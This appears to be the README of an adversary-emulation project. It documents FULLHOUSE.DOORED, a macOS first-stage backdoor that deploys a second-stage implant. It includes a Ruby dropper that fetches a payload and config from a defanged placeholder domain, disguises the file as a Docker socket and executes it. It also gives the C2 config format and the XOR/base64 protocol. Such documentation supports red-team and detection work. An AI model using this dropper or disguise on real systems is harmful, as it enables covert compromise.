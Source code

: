 ﻿# FULLHOUSE.DOORED

FULLHOUSE.DOORED is a first-stage backdoor downloaded and executed via a Ruby
script executed with elevated privileges, emulating compromise of a JumpCloud
agent. It is used primarily to deploy the second-stage backdoor, [STRATOFEAR](../STRATOFEAR/).
FULLHOUSE.DOORED is written in C++ and Objective-C and communicates over HTTP.

## Usage Examples

### Basic Execution

FULLHOUSE.DOORED does not take any command line arguments but requires a
configuration file with the following format to exist in the same directory,
where the first line is the C2 IP address for the implant to connect to and the
second line is the UUID for the implant to use for registering with the C2
server:

```text
10.100.0.70
01A48A493AC92607E79CB427067C0A42
```

FULLHOUSE.DOORED is intended to be downloaded over HTTPS then executed via the
`system` call:

```ruby
require 'open-uri'
path_to_fullhouse = '/usr/local/bin/com.docker.sock'
File.open(path_to_fullhouse, 'wb') do |file|
file.write(open('hxxps://domain[.]com/main').read)
end
sleep(1)
File.chmod(0755, path_to_fullhouse)
path_to_config = '/usr/local/bin/com.docker.sock.lock' 
File.open(path_to_config, 'wb') do |file|
file.write(open('hxxps://domain[.]com/config').read)
end
sleep(1)
system(path_to_fullhouse)
```

The backdoor can alternatively be executed via the command line:

```zsh
# assumes config file (com.docker.sock.lock) is in the same directory
./com.docker.sock
```

### Tasking

HTTP request bodies are XOR-encrypted using the key `F` then base64 encoded.

| Action | Protocol | Endpoint | Data Sent (plaintext) | Expected Data to Receive (plaintext) |
| ---- | -------- | -------- | --------- | ------------------------ |
| Initial C2 Registration | POST | `/request/{UUID}` | Request body contains initial discovery data (username, hostname, PID) | JSON formatted tasking |
| Heartbeat | GET | `/request/{UUID}` | No data sent | '{"id": 0}' |
